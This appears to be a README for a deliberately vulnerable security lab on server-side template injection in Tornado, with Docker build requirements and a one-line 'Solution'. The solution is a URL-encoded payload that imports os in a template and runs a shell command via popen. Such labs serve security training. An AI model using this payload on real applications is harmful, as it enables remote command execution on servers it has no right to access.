 # Template Injection : Tornado

## Build instructions

Requirements:
 - Docker
 - Docker-compose

## Solution

```
{%import%20os%}{{os.popen(%22whoami%22).read()}}
```

